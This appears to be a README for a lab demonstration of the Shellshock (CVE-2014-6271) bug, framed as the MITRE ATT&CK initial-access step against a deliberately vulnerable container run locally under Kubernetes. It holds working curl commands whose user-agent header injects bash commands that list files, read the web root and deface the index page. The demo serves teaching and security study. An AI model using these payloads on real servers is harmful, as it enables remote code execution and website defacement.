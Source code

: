 # Initial Access Demonstration

This demonstration will showcase initial access as part of the MITRE ATT&CK framework. This will showcase Exploition of a Public-Facing Application. This is a slightly modifed version of the vulnerables demo for shellshock.

## What is shellshock?

Improper input validation bash code allowed users to put trailing commands after the definition of environment variables. 

You read this and first think - what uses environment variables.....crap. TONS OF THINGS! SSH, Apache modules, etc.

This meant remote code execution on apaches mod_cgi(d) library used in web servers.

CGI stands for Common Gateway Interface. It is a way to let Apache execute script files and send the
output to the client. So we just need something that will use bash.

# Demo Script

*Note: It's important that this is not exposed to the public internet and highly reccomended to never be run in privlegded mode. (You will actually be hacked if running in privledged mode and publically expose this)* It's reccomended that when using this you only port forward.

## Setup

1. Run shellshock vulerable pod

```
  kubectl run shellshock --labels=app=shellshock,team=evilcasper --image=vulnerables/cve-2014-6271 -n default
```

2. Port forward to the pod.


```
  kubectl port-forward shellshock 8080:80 -n default
```


### Weaponization and delivery

Making it easy for them to find me - the user agent is removed - which is totally normal network traffic :P

Have to make it hard for the copy pasta script kiddies. Also you're never gonna get a website with vulerable as an endpoint.

```
  curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'ls /'" \
http://localhost:8080/cgi-bin/vulnerable
```

4. Check out the index file for apache

```
  curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /var/www/index.html'" \
http://localhost:8080/cgi-bin/vulnerable
```

### Exploitation

6. Time to mess with people by defacing their website with cat pictures

```
  curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo \"<html><body><h1>Cat memes are the most important thing in the world.</h1><body><img src=https://i.redd.it/v5cingisv6p01.jpg></body></html>\" > /var/www/index.html'" http://localhost:8080/cgi-bin/vulnerable
```
